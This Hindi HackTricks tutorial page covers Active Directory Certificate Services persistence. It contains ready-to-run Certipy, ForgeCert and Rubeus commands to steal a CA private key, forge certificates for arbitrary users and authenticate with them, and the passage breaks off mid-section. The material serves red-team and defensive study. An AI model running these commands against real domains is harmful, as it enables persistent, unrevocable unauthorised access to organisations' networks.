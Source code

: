 # एडी सीएस डोमेन स्थिरता

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

**यह [https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)** में साझा की गई डोमेन स्थिरता तकनीकों का सारांश है। अधिक विवरण के लिए इसे देखें।

## चोरी गए सीए प्रमाणपत्रों के साथ प्रमाणपत्र बनाना - DPERSIST1

एक प्रमाणपत्र को CA प्रमाणपत्र मानने के लिए आप कैसे कह सकते हैं?

यह तय किया जा सकता है कि एक प्रमाणपत्र एक CA प्रमाणपत्र है अगर कई शर्तें पूरी होती हैं:

- प्रमाणपत्र CA सर्वर पर संग्रहीत है, जिसकी निजी कुंजी को मशीन के DPAPI द्वारा सुरक्षित किया गया है, या यदि ऑपरेटिंग सिस्टम इसे समर्थन करता है तो TPM/HSM जैसे हार्डवेयर द्वारा।
- प्रमाणपत्र के इश्यूअर और सब्जेक्ट फ़ील्ड CA के विभाजन नाम से मेल खाते हैं।
- "CA संस्करण" एक्सटेंशन केवल CA प्रमाणपत्रों में मौजूद है।
- प्रमाणपत्र में विस्तारित कुंजी उपयोग (EKU) फ़ील्ड गायब है।

इस प्रमाणपत्र की निजी कुंजी को निकालने के लिए, CA सर्वर पर `certsrv.msc` उपकरण बिल्ट-इन GUI के माध्यम से समर्थित विधि है। फिर भी, यह प्रमाणपत्र सिस्टम में संग्रहीत अन्य प्रमाणपत्रों से अलग नहीं है; इसलिए, निकालने के लिए [THEFT2 तकनीक](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) जैसी विधियाँ लागू की जा सकती हैं।

इस प्रमाणपत्र और निजी कुंजी को निम्नलिखित कमांड के साथ Certipy का उपयोग करके प्राप्त किया जा सकता है:
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
जब CA प्रमाणपत्र और इसकी निजी कुंजी को `.pfx` प्रारूप में प्राप्त किया जाता है, तो [ForgeCert](https://github.com/GhostPack/ForgeCert) जैसे उपकरण का उपयोग करके मान्य प्रमाणपत्र उत्पन्न किए जा सकते हैं:
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
{% hint style="warning" %}
ध्यान दें: प्रमाणपत्र जालीकरण के लिए लक्षित उपयोगकर्ता सक्रिय होना चाहिए और प्रक्रिया सफल होने के लिए सक्षम होना चाहिए। krbtgt जैसे विशेष खातों के लिए प्रमाणपत्र जालीकरण अप्रभावी है।
{% endhint %}

यह जालीकृत प्रमाणपत्र **वैध** होगा जब तक निर्दिष्ट समाप्ति तिथि तक होगा और **मूल सीए प्रमाणपत्र वैध** होगा (सामान्यत: 5 से **10+ वर्ष** तक)। यह **मशीनों** के लिए भी वैध है, इसलिए **S4U2Self** के साथ मिलाकर, एक हमलावर किसी भी डोमेन मशीन पर **स्थिरता बनाए रख सकता है** जब तक सीए प्रमाणपत्र वैध है।\
इसके अतिरिक्त, इस विधि से **उत्पन्न प्रमाणपत्रों** को **रद्द नहीं किया जा सकता** क्योंकि सीए उनके बारे में जागरूक नहीं है।

## रोग CA प्रमाणपत्रों पर विश्वास - DPERSIST2

`NTAuthCertificates` ऑब्जेक्ट को एक या एक से अधिक **सीए प्रमाणपत्र** शामिल करने के लिए परिभाषित किया गया है जिसे एक्टिव डायरेक्टरी (एडी) उपयोग करती है। **डोमेन कंट्रोलर** द्वारा सत्यापन प्रक्रिया में यदि प्रमाणित **प्रमाणपत्र** के इश्यूर क्षेत्र में निर्दिष्ट सीए के लिए कोई प्रविष्टि मिलती है तो प्रमाणीकरण आगे बढ़ता है।

एक आत्म-साइन किए गए सीए प्रमाणपत्र को एक हमलावर `NTAuthCertificates` ऑब्ज
